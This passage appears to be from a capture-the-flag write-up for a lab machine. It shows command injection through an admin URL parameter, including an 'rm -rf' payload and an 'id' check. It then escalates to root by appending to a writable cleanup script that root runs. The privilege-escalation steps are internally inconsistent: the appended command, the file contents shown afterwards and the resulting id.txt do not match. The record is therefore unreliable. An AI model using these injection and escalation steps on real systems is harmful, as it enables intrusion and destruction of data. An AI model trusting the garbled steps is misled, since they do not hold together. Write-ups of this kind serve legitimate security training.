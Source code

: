 ### Login with Admin Credentials

After login into `http://192.168.1.183/admin` with retrieved admin credentials, we found a "Clean Downloads" button.\
When we press it, a `rm` command is exposed in URL as paramenter `c` content.\
We just found other RCE vector.
```
http://192.168.1.183/admin/?c=rm%20-rf%20/var/www/html/tmp/downloads
                            ^
                            |___ RCE Vector
```

Although, it has the same privilege than our previous RCE vector.
```
http://192.168.1.183/admin/?c=id

uid=33(www-data) gid=33(www-data) groups=33(www-data) Done :) 
```

### Privilege Escalation

Walking through the machine folders, we found a `/var/www/html/tmp/clean.sh` script that runs on every "Clean Downloads" interaction.\
To be able to remove `/var/www/html/tmp/downloads` folder, the `clean.sh` script must to run as root.\
However, `www-data` user has write permission on it.
```
www-data@dmv:/var/www/html/tmp$ ls -lah
drwxr-xr-x 2 www-data www-data 4.0K Jan 24 00:21 .
drwxr-xr-x 6 www-data www-data 4.0K Jan 23 23:27 ..
-rw-r--r-- 1 www-data www-data   30 Jan 24 00:20 clean.sh

www-data@dmv:/var/www/html/tmp$ cat clean.sh
rm -rf downloads
```

We are able to write in `clean.sh` file:
```
www-data@dmv:/var/www/html/tmp$ echo "id" >> clean.sh

www-data@dmv:/var/www/html/tmp$ cat clean.sh
rm -rf downloads
echo "id" >> clean.sh
```

After click on "Clean Downloads" button, we have the `id.txt` file created.
```
www-data@dmv:/var/www/html/tmp$ ls -lah
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Jan 24 00:21 .
drwxr-xr-x 6 www-data www-data 4.0K Jan 23 23:27 ..
-rw-r--r-- 1 www-data www-data   42 Jan 24 00:27 clean.sh
-rw-r--r-- 1 root     root       39 Jan 24 00:29 id.txt

www-data@dmv:/var/www/html/tmp$ cat id.txt
uid=0(root) gid=0(root) groups=0(root)
```
